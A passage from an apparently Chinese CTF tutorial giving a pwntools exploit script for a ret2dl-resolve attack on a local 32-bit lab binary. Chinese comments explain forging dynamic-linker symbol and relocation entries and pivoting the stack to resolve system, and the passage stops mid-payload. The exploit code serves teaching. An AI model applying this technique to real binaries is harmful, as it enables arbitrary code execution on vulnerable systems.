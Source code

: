 ​ **payload 详细版：**

```plain
from pwn import *
context.arch = "i386"
c=process('/ret2dl/pwn')
elf=ELF('/ret2dl/pwn')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

def hexp(name):
    print(hex(name))

# 取地址，做好准备工作。
plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr # ELF JMPREL Relocation Table
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr # 0x80481dc 
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

# hexp(plt0)
# hexp(rel_plt)
# hexp(dynsym)
# hexp(dynstr)
read_plt = elf.plt['read'] # 劫持调用
read_got = elf.got['read'] # got 篡改写入
leave_ret= 0x0804854A      # 栈迁移
writable_addr = 0x0804a700 
# 找一个可写的区域，我们将栈迁移过去，而且我们发现 ida 中最末尾的地址才 0x0804A080，我们写在 a700 后应该不会影响程序原有数据。
# 一.>>>>>>>>>>> 这里有个疑惑，为什么 a000 到 b000 都是可写的，但是只有 a700 后才能打通？
# 需要骗过_dl_runtime_resolve 函数的话，我们就需要伪造我们的 dynsym,dynstr,rel_plt 表，还有 reloc_index。

# 首先我们来构造 dynsym 表
Elf32_Sym_sys_addr = writable_addr + 32
# 构造了一个 Elf32_Sym 的结构体
align = 0x10-((Elf32_Sym_sys_addr-dynsym)&0xf) 
# 对齐操作
# 为什么要对齐呢？是相对于 dynsym 表而言的结构体地址，每个结构体的大小是 0x10 字节，所以要新构造一个的话当然要对齐啦。
# 对齐之后，更好在迁移栈中布局
Elf32_Sym_sys_addr += align   
# system 在 Dynsym 表中的结构体地址构造好了
# 接下来构造 system 的 dynsym 表的结构体内容
st_name = Elf32_Sym_sys_addr + 0x10 - dynstr 
Elf32_Sym_sys = p32(st_name) + p32(0) + p32(0) + p32(12) 
# 把最终的 system 函数名称布置到了 Elf32_Sym_sys_addr + 0x10 的位置，因为 dynsym 表中的第一个结构体占 0x10 个字节

# 现在构造.rel.plt 表
r_offset = read_got
r_index  = (Elf32_Sym_sys_addr-dynsym)/0x10
r_info   = int(r_index)<<8 | 0x7
# 现在倒推构造 reloc_index，也就是 dl 函数的第二个参数
# rel.plt 表的首地址值加上参数 reloc_index，即是 ELF REL Relocation Table 的指针
reloc_index = writable_addr - rel_plt + 24
# 将 rel.plt 结构布置在了 writable_addr + 24 处，为什么是 24 呢？
# 因为 32 是放 sym 结构体的位置，rel.plt 的结构体只占 8 字节
Elf32_rel_plt_sys = p32(r_offset) + p32(r_info) 
Elf32_rel_plt_sys_addr = reloc_index + rel_plt
# 伪造的.rel.plt 构造完成

# 伪造工作完成，现在开始利用：

# 第一次调用 read 函数，目的是完成第二次调用 read 函数的准备工作
payload1 = 0x2c * b'a'
payload1 += p32(read_plt)
payload1 += p32(0x0804852D) # vuln 函数地址
payload1 += p32(0)
```